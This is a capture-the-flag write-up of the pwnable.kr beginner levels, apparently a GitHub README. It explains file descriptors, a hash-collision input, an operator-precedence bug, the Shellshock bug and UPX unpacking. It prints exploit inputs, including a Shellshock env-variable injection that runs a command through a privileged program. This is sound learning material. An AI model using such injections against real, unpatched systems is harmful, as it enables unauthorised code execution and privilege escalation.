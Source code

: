 # pwnable.kr
Just some of my thought process going through the Toddler's Bottle beginner levels.

# 1: [fd]

Looking at the program, I see the program is looking for an input of LETMEWIN to get the flag. However, you can't just enter it as an argument.
The clue asks you what a file descriptor is. After googling, I learned that there are three file descriptors. Standard input is accessed at integer value 0,
so I looked at the line : <br>
````c
int fd = atoi( argv[1] ) - 0x1234; <br>
````
took 0x1234, converted it to decimal, and entered in 4660 as the file argument. This allowed me to write to STDIN, and I entered LETMEWIN.
the flag was returned.


# 2: collision

Looking at the code for col.c, we see a few restrictions for our argument. The passcode length must be length 20.
The password you enter is taken into chunks of four and totalled. Therefore, we need 5 integers whose total should be equal to 0x21DD09EC. 

```c
col@ubuntu:~$ python
Python 2.7.12 (default, Jul  1 2016, 15:12:24)
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x21DD09EC
568134124
>>>
```
Next, I converted 0x21DD09EC into decimal, which is: 568134124. We can see by looking at it that 568134124 is not cleanly divisible by 5.
I plugged it into a calculator and got 113626828.8, which is 113626828 and 4/5. This means that if we round off 113626828.8 to 113626828 and subtract 4, we 
have 113626824 * 4 + 113626828 = 568134124. So we have to enter those in hex. I used python:

```c
./col `python -c 'print "\xc8\xce\xc5\x06"*4 + "\xcc\xce\xc5\x06"'`
```
The flag was returned!


# 3: mistake

This one used some knowledge from the first one I did, fd. 

```c
mistake@ubuntu:~$ cat mistake.c
#include <stdio.h>
#include <fcntl.h>

#define PW_LEN 10
#define XORKEY 1

void xor(char* s, int len){
        int i;
        for(i=0; i<len; i++){
                s[i] ^= XORKEY;
        }
}

int main(int argc, char* argv[]){

        int fd;
        if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
                printf("can't open password %d\n", fd);
                return 0;
        }

        printf("do not bruteforce...\n");
        sleep(time(0)%20);

        char pw_buf[PW_LEN+1];
        int len;
        if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
                printf("read error\n");
                close(fd);
                return 0;
        }

        char pw_buf2[PW_LEN+1];
        printf("input password : ");
        scanf("%10s", pw_buf2);

        // xor your input
        xor(pw_buf2, 10);

        if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
                printf("Password OK\n");
                system("/bin/cat flag\n");
        }
        else{
                printf("Wrong Password\n");
        }

        close(fd);
        return 0;
}
```
Looking at the code we can see a program that starts up, opens the password from the password file, tells you "do not bruteforce...", waits, then asks for a password.
It takes your password and flips the last bit of every byte. If your flipped password matches the password file, cat the flag.
The hint for the problem says "operator priority", so I started looking for errors in execution. You don't have to look far, the
error occurs at the beginning with the file descriptor. 
```c
        if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
                printf("can't open password %d\n", fd);
                return 0;
        }
```
Here we can see that the fd is being set to the outcome of open(...) < 0, instead of the intended setting of fd to the comparison of open(...) and 0.<br>
This is always going to be false, because the password file should open correctly. Therefore, fd is always going to be zero, and it will get its value from stdin. This means that later on the program will compare the flipped input to our stdin. All we need to do is find two 10-digit values that equal each other when one has the last bit of every byte flipped. 0000000000 and 1111111111 work just fine, since we flip 0000 to 0001.<br>
This returns the flag!


# 4: shellshock

This one actually took me a little while to get the formatting correct, but the basic idea is to use the shellshock exploit. The shellshock exploit allows an attacker to inject code into a bash script. Opening up the c++ file shows a small program:
```c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```
All it does is tell the user to "shock_me". Googling around let me to this: http://resources.infosecinstitute.com/practical-shellshock-exploitation-part-1/, which eventually led to the command: 
```c
env x='() { :;}; /bin/cat ~/flag' ~/shellshock
```
This command adds on extra code to the shellshock file, allowing us to execute our code inside the program that has higher privileges. Running the command gives us the flag!.


# 5: flag
I started this one off by downloading the file and making it executable. Running it gave me this:
```c
david@david-VirtualBox:~/Documents/pwnable5$ ./flag
I will malloc() and strcpy the flag there. take it.
```
Cryptic. The next thing I did was open the file in vi. The file contains a ton of gibberish, so I checked the strings with
```c
strings flag > hello
```
Looking through the file we see a bunch of random text with some broken up lines. One thing I noticed is the line "UPX!" appearing once at the very top of the page, and twice at the very bottom of the page. Googling this line brought me to here: https://en.wikipedia.org/wiki/UPX. <br><br>
As it turns out, UPX is a packaging tool for executables. Let's download it and see what we can do.
```c
david@david-VirtualBox:~/Documents/pwnable5$ upx -d flag
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2013
UPX 3.91        Markus Oberhumer, Laszlo Molnar & John Reiser   Sep 30th 2013

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
    887219 <-    335288   37.79%  linux/ElfAMD   flag

Unpacked 1 file.
david@david-VirtualBox:~/Documents/pwnable5$ ls
flag  hello
```

So we still have the same flag file. Running it produced the same output message Next, I opened it up. Immediately, the file looks different. I scrolled around for a while before deciding to look for the output message. Using vim to search for malloc brought me to next to a message: <br>UPX...? sounds like a delivery service :)<br>
Which turned out to be the flag!


# 6: coin1

Work in progress. Need to finish python script which will connect and use binary search to complete the game.
